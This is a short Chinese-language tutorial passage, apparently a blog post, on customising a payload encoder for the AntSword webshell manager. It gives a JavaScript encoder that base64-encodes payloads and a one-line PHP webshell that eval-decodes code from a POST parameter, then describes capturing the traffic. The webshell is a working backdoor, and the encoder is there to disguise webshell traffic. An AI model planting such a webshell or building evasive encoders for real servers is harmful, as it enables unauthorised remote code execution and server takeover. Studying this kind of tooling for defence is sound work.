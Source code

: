 
上面的注释已经写的很清楚了，我们在自定义编码方式时只需要去修改_`data['']`_中的内容就可以了，下面是我对默认编码器的修改：


```json
/
  _php::base64编码器
  Create at: 2020/05/19 16:57:59
 /

'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  data[pwd] = Buffer.from(data['']).toString('base64');

  // ##########    请在上方编写你自己的代码   ###################

  // 删除  原有的payload
  delete data[''];
  // 返回编码器处理后的 payload 数组
  return data;
}_

```


由于上述的编码器没有自动解码传入的payload，所以需要在webshell中解码payload，将webshell改为如下的形式：


```php
<?php eval(base64_decode($_POST['test']));?>

```


抓包查看请求的数据包：


![2020%2005%2019%2017%2002%2055.png](../post_images/c533c87afd7903014f556d6ef8388b5e.png)

